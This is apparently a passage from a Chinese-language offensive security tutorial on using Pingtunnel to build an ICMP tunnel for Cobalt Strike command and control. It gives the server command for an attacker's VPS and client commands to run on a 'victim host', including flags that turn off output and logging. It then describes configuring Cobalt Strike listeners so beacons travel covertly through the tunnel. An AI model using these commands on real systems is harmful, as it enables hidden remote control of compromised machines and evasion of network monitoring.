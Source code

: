 ### 利用方式

#### Pingtunnel 上线 Cobaltstrike

1、按照上面步骤，先利用 Pingtunnel 搭建 ICMP 隧道

服务端（vps）

```bash
sudo ./pingtunnel -type server -key 000000(连接密码，只限数字)
```

[![](assets/1708095858-ba656df398ed048e445e6d2e19423b65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202746-be450544-e8e4-1.png)

客户端（受害主机），这边需要将 ICMP 转发为 TCP

```bash
pingtunnel.exe -type client -l [本机 IP：ICMP 隧道端口] -s [服务端 IP_VPS] -t [服务端 IP_VPS:ICMP 隧道转发至 VPS 的端口] -tcp 1 -noprint 1 -nolog 1 -key [密钥]
pingtunnel.exe -type client -l 127.0.0.1:2222 -s 1.x.x.x -t x.x.x.x:3333 -tcp 1 -noprint 1 -nolog 1 -key 000000
```

[![](assets/1708095858-ceb881677bfd0de89ade926a847acccf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202754-c31ff3b2-e8e4-1.png)

2、Cobaltstrike 新建两个监听，一个为转发 ICMP 的 2222 端口 host 为 127.0.0.1（这个主要用于生成本地地址的 beacon），另一个监听端口为 ICMP 流量转发到 VPS 的服务端口 3333。
